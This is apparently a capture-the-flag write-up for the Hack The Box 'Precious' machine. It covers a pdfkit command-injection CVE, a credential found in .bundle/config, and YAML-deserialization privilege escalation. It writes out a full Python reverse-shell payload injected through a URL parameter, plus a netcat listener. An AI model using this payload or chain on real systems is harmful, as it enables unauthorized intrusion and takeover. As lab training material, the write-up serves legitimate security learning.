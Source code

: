 # Precious Machine Writeup - Easy

## Overview

![image](https://user-images.githubusercontent.com/99826925/212559935-cadec647-87aa-4757-9643-42e7d8ad8c7c.png)

## Enumeration

The first step I made, as usual, scan for open ports and look for anything suspicious.

For this reason, I used the following command:

└─$ nmap -sC -sV 10.10.11.189 

![1](https://user-images.githubusercontent.com/99826925/212559647-3abcf2f0-74bb-4740-8e52-83c328c07da5.PNG)

We can only find the ssh and web application running on both 22 and 80 ports.
Even after trying to fuzz for subdomains, we had nothing interesting.
So let's jump to our browser and have a look at the website.

## Look inside the webpage

![image](https://user-images.githubusercontent.com/99826925/212560106-7d104529-4f17-4761-b7e6-ffa8d3f1ec85.png)

It looks like this web page converts a website that a user provides to a PDF document.
I tried to see how it works. For this reason, I started a http server with python.

![image](https://user-images.githubusercontent.com/99826925/212560283-0bd57637-87ec-40fe-bc34-a68d259972e2.png)

![image](https://user-images.githubusercontent.com/99826925/212560366-f5162a10-90a1-4661-9c63-7296d525220f.png)

Our server is ready to be converted to PDF. I pasted the URL and the website generated a PDF File.

## Getting user access

Analyzing the PDF, I used Exiftool on the generated PDF to find that it's using "pdfkit v0.8.6".

I went to google to see if we can use a CVE for this version, to find that this version is vulnerable to Command Injection 'CVE-2022-25765'
An application could be vulnerable if it tries to render a URL that contains query string parameters with user input.

For more info visit : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

I edited the URL Provided to add a parameter and see if I can execute a system command to make it look like :
http://10.10.**.**/?name=%20'whoami'
The resulted PDF:

![image](https://user-images.githubusercontent.com/99826925/212561063-d0dd0cb4-d098-475a-ab2b-1cc97690c4d6.png)

So it's working ! I know I can inject system commands, so I generated a reverse shell using https://www.revshells.com/ and pasted it in my URL's parameter:

```http://10.10.**.**/?name='python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.**.**",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")''```
and on my side, I had a NetCat listener :

└─$ nc -lvnp 4444

![image](https://user-images.githubusercontent.com/99826925/212561720-26b03023-7614-4474-9b9c-6cc220c4156f.png)

![image](https://user-images.githubusercontent.com/99826925/212561756-c61e1fb2-f6f5-476e-9556-9febb9a5c829.png)

Nice ! we got our hands on the shell.

Listing the home directory, I found there is a user called 'henry'. And after spending some time looking in the files and folders, I was able to find henry's credentials in .bundle/config file.

![image](https://user-images.githubusercontent.com/99826925/212561910-77201647-e539-4cde-9b04-b00ab7c5a0c9.png)

Using those credentials, I was able to SSH through henry's user and get the user flag.

![image](https://user-images.githubusercontent.com/99826925/212562543-bc07389d-79b5-4ae6-aa04-49e75a9cef24.png)

## Privilege Escalation

The first step I usually do, is to run ```sudo -l``` to see if we have any files we can run as root.

![image](https://user-images.githubusercontent.com/99826925/212562593-a0d02d64-1bf3-464e-9c00-c500adffb2ca.png)

looking inside the update_dependencies.rb, we notice that it is calling ```yaml.load()``` function, which seems to be vulnerable to Blind Remote Code Execution through YAML Deserialization

For more info : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

![image](https://user-images.githubusercontent.com/99826925/212562617-077c08ad-c505-454c-950f-f675b6eeb011.png)

I used the script provided in the link above to make the dependencies.yml file and made a system command in the git_set param and inserted ```whoami```:

![image](https://user-images.githubusercontent.com/99826925/212562671-45a76150-12ab-4b7d-bee8-9e2031c5ed09.png)

Let's see what happens when we run the ruby file :

![image](https://user-images.githubusercontent.com/99826925/212563443-7b0cf5af-0014-425a-86db-8c8eedf212bc.png)

the server is executing what we provide in the git_set param !
Now let’s see if we can change the permissions of the /bin/bash directory so that we can elevate our privileges:

![image](https://user-images.githubusercontent.com/99826925/212563592-78f01a26-1168-4f73-ba78-1198cc2be6de.png)

Running again:

![image](https://user-images.githubusercontent.com/99826925/212563640-058a8393-1e14-4a69-8254-a18757efbaf6.png)

let's see now if we could put our hands on the root user :

![image](https://user-images.githubusercontent.com/99826925/212563672-88408adc-24be-497c-bded-b75fdbfc4ede.png)

It worked ! now let's claim our prize and have that root flag!

![image](https://user-images.githubusercontent.com/99826925/212563698-6e83d448-2e23-4f2f-a9f8-d5d0c1a52210.png)


 




